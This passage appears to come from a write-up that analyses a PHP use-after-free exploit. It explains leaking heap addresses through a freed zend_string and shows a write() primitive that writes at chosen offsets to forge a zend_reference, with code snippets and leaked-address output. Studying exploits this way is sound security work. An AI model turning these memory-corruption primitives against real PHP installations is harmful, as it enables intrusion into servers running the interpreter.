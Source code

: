 ```php


$php_heap = str2ptr($abc, 0x58); // reading the beginning of a free chunk on the heap
$abc_addr = $php_heap - 0xc8; // going back to the address of where the string in $abc begins

echo "\n Heap leak: 0x".dechex($php_heap);
echo "\n abc addr: 0x".dechex($abc_addr);

?>
```

Output:
```
Heap leak: 0x7ffff6073150
abc addr: 0x7ffff6073088
```

We managed to get the address of ``zend_string.val``($abc).

ok so that was read, What about write? 

The ``write()`` function will allows us to write directly to the uaf'd ``zend_string``($abc) whatever we want with an offset of our choice:

```php
function write(&$str, $p, $v, $n = 8) {
    $i = 0;
    for($i = 0; $i < $n; $i++) {
        $str[$p + $i] = chr($v & 0xff);
        $v >>= 8;
    }
}
```

In the next lines of the exploit([187-188](exploit.php#L187-L188)), the author uses the  ``write()`` function to write the values ``2`` and ``6`` at specific offsets (``0x60`` and ``0x70``):
```php
write($abc, 0x60, 2);
write($abc, 0x70, 6);
```
He's writing outside of the object again. We can understand that it's the end of the object by the ``0x1338`` value in the top right(which is the value we set to ``$helper->d`` in the PHP script):

![screenshot1](./res/write_diff.png)

It looks like he's trying to write a ``zend_reference`` from scratch:

```
struct _zend_reference {
    zend_refcounted   gc;  // populated with 0x2 using write()
    zval              val; // populating zval.u1(contains the type_info field) with the value 6 using write()
};
```
